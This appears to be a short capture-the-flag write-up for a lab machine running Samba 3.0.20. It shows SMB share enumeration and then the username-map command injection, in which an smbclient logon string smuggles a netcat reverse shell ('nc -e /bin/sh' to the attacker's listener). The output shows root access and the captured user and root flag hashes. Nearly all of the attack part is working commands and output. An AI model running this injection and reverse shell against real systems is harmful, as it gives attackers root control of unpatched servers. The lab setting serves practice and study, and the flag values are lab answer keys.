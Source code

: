 used ifconfig to check my ip address ==> 10.10.14.45

used two terminals one for listening and other for exploit

1.) nc -nvlp 8888

2.) don't put any password for anonymous login

2nd terminal ==>
```
root@kali:~# smbclient -L 10.10.10.3
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            LAME

root@kali:~# smbclient //10.10.10.3/tmp
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> logon "./=`nc -e /bin/sh 10.10.14.45 8888`"
Password: 

```

1st terminal ==>
```
listening on [any] 8888 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.10.3] 50364
whoami
root
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
cat home/makis/user.txt
69454a937d94f5f0225ea00acd2e84c5
cat root/root.txt
92caac3be140ef409e45721348a4e9df
```

